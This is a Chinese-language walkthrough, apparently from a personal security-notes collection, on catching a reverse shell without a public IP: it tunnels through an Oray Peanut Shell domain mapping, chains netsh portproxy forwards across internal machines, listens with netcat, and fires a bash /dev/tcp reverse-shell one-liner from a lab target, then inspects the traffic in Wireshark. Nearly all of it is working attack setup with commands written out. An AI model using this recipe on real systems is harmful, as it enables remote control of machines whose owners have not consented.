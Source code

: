 ﻿﻿﻿﻿**不需要公网ip也能反弹shell**

**1、下载花生壳客户端，点击映射数，自动打开web控制台**

下载链接：https://hsk.oray.com/download/

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.001.png)

**2、点击添加映射**

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.002.png)

**3、填入**：

0x01映射类型：tcp

0x02外网域名：2531j09e25.wicp.vip(自动分配的一个)

0x03内网主机：192.168.1.102（花生壳客户端转发流量到内网的一台机器ip）

0x04内网端口：54322(内网的一台机器ip的监听端口)

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.003.png)

**4、192.168.1.102内网主机代理转发netsh设置：**

    netsh interface portproxy add v4tov4 listenaddress=192.168.1.102 listenport=54322 connectaddress=192.168.1.104 connectport=54322

解释：在192.168.1.102机器上开启监听端口54322，转发流量至：192.168.1.104:54322另一台内网机器上，确保IP Hepler服务已开启，监听端口已监听，命令：```netstat -ano | findstr :54322```，备注：```taskkill /pid 95728 /F``` 强制杀死进程,强制杀死后需要开启IP Helper服务

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.004.png)

**5、192.168.1.104内网主机代理转发netsh设置：**


    netsh interface portproxy add v4tov4 listenaddress=192.168.1.104 listenport=54322 connectaddress=192.168.136.128 connectport=54322


解释：在192.168.1.104机器上开启监听端口54322，转发流量至：192.168.136.128:54322虚拟机上，确保IP Hepler服务已开启，命令： ```netstat -ano | findstr :54322```监听端口已监听，备注：```taskkill /pid 3532 /F ```强制杀死进程

![QQ截图20210911140208](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.005.jpeg)

**6、192.168.136.128虚拟机监听端口：54322，宿主机：192.168.1.104**

执行：

    nc -lvvnp 54322

![QQ截图20210911140816](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.006.jpeg)

**7、执行反弹shell命令,靶机链接：https://www.vsplate.com/labs.php#**

    bash -i &> /dev/tcp/2531j09e25.wicp.vip/19478 0>&1

解释：

2531j09e25.wicp.vip：花生壳web控制台上的域名

19478：花生壳web控制台上的端口


![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.007.png)

**8、可以看到，成功反弹shell**

![QQ截图20210911141252](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.008.jpeg)

**9、Wireshark抓包分析：**

在机器192.168.1.104抓包，监控Vmware network Adapter VMnet8网卡和无线网卡，可以看到，192.168.1.102向192.168.1.104（本机）发包，然后，192.168.136.1虚拟ip（本机）向192.168.136.128发包

![QQ截图20210911142425](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.009.png)

**结束！**
